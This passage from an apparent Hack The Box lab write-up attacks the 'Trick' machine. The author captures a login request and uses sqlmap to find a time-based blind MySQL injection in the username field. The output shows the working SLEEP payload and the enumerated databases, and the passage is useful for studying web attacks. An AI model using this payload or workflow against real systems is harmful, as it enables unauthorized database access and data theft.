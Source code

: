 To enumerate its database, let's try using `sqlmap`.
First, using `Burpsuite` I captured and saved the login request.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat req.txt   
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://preprod-payroll.trick.htb
Connection: keep-alive
Referer: http://preprod-payroll.trick.htb/login.php
Cookie: PHPSESSID=pl6dk0mbm0ksc1bl3l8atu2m62

username=*&password=test
```

Using the request file, I tried naive `sqlmap` command.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --dbs
       __H__                                
 ___ ___[(]_____ ___ ___  {1.8.7#stable}
|_ -| . [)]     | .'| . |       
|___|_  [)]_|_|_|__,|  _|    
      |_|V...       |_|   https://sqlmap.org   

<SNIP>

sqlmap identified the following injection point(s) with a total of 212 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 8151 FROM (SELECT(SLEEP(5)))WJeT) AND 'UVZo'='UVZo&password=test
---
[13:50:08] [INFO] the back-end DBMS is MySQL

<SNIP>
```

This scan is using "Time-based SQL Injection" which takes too long.
Let's specify the increase thread.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --threads 10 --dbs 

<SNIP>

[14:04:38] [INFO] resumed: 2
[14:04:38] [INFO] resumed: information_schema
[14:04:38] [INFO] resumed: payroll_db
available databases [2]:
[*] information_schema
[*] payroll_db
```
